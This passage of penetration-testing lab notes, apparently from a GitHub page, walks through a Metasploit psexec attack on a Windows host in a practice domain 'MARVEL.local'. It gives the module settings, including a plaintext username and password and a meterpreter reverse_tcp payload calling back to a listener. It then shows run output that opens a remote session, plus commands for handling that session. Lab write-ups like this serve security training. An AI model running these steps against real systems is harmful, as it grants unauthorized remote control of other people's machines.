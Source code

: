 > Here is the final setting
```
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                192.168.64.220   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                                    /basics/using-metasploit.html
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             MARVEL.local     no        The Windows domain to use for authentication
   SMBPass               P@$$w0rd1        no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a norma
                                                    l read/write folder share
   SMBUser               fcastle          no        The username to authenticate as


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.64.4     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```


Running the exploit. You can interchange from background to session 1
- `background` to go back to msf6 exploit (window/smb/psexec)
- `sessions`
- `session 1` - to go back to meterpreter

```
msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 192.168.64.4:4444 
[*] 192.168.64.220:445 - Connecting to the server...
[*] 192.168.64.220:445 - Authenticating to 192.168.64.220:445|MARVEL.local as user 'fcastle'...
[*] 192.168.64.220:445 - Selecting PowerShell target
[*] 192.168.64.220:445 - Executing the payload...
[+] 192.168.64.220:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200774 bytes) to 192.168.64.220
[*] Meterpreter session 1 opened (192.168.64.4:4444 -> 192.168.64.220:49721) at 2024-07-14 20:29:38 -0700

meterpreter > 
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > sessions
```